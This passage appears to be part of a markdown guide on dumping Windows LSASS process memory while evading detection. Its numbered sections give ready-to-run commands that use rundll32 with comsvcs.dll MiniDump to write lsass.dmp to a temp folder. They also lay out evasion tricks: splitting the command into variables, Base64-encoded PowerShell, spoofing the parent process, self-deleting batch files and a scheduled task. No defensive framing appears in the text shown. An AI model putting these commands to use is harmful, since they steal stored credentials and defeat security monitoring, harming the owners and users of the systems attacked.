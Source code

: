 ### 4. **Staging the Command in Chunks**
   - **Execution in Stages**: Break down the execution process into multiple stages to avoid detection by heuristic-based systems.

     ```cmd
     set dumpcmd=rundll32.exe
     set dllpath=c:\windows\system32\comsvcs.dll, MiniDump
     set pid=1234
     set output=c:\windows\temp\lsass.dmp
     %dumpcmd% %dllpath% %pid% %output% full
     ```

### 5. **Encoding and Decoding**
   - **Base64 Encoding**: Encode the command in Base64 and decode it on the fly before execution.

     ```cmd
     powershell -encodedCommand <Base64String>
     ```

   - **XOR Obfuscation**: Use XOR or another simple encoding mechanism to obfuscate the command and then decode it at runtime.

### 6. **Indirect Command Execution**
   - **Parent-Child Process Spoofing**: Execute the dump command from a less suspicious parent process or chain it through other benign processes to mask the true intent.

     ```cmd
     powershell -c "Start-Process rundll32.exe -ArgumentList 'c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full'"
     ```

### 7. **Using a Wrapper Script or Binary**
   - **Wrapper Script**: Write a script or small binary that obfuscates the actual dump command by hiding it in complex logic or disguising it as a legitimate task.

   - **Self-deleting Script**: Create a script that runs the dump command and then deletes itself to remove traces.

     ```cmd
     echo rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full > temp.bat
     temp.bat & del temp.bat
     ```

### 8. **Time-delayed Execution**
   - **Scheduled Tasks**: Use a scheduled task to delay the execution, which might bypass real-time monitoring tools.

     ```cmd
     schtasks /create /tn "DumpLSASS" /tr "rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full" /sc once /st 23:59
     ```
